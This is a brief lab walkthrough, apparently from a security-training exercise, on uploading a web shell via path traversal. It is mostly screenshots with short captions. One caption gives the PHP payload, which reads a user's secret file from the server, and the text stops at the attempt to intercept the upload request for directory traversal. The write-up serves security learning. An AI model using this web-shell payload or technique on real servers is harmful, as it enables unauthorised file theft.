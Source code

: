 # Lab: Web shell upload via path traversal #

## Lab description ##

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/f69fa024-9753-4c16-92e7-401dc68d4551)

### Target website ###

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/dd9cfa26-f091-4f5f-a068-ee17ca890872)

> So this the file upload page of the website we upload file here.

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/018e69a7-0830-4184-8cff-bea098782aff)

> We uplaod the payload exploit.php content is `<?php echo file_get_contents('/home/carlos/secret'); ?>`

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/6520f6ff-9277-483f-878b-f574f1585f4a)

> We can see that file was uploaded sucessfully.

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/f3e79e0b-fb1e-4b3e-a032-fe951c5f4355)

> We have intercepted the request and try directory travesal.

